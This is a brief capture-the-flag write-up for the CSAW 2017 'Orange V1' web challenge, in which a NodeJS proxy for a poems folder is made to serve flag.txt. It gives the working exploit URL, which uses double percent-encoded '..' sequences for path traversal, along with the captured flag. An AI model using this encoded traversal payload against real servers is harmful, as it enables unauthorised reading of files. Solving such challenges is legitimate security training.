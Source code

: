 # CSAW17
## Orange V1 - WEB
http://web.chal.csaw.io:7311/?path=orange.txt
I wrote a little proxy program in NodeJS for my poems folder.

Everyone wants to read flag.txt but I like it too much to share.
Write up available here : [techoverflow.fr](http://techoverflow.fr/2017/09/18/orange-v1-web-csaw17/)

## Solution
Double enconding the ".." using http://2tap.com/javascript-percent-encoder/

http://web.chal.csaw.io:7311/?path=%25%32%65%25%32%65/flag.txt

## Flag

flag{ch3ck-exp3rian-dat3-b3for3-us3}
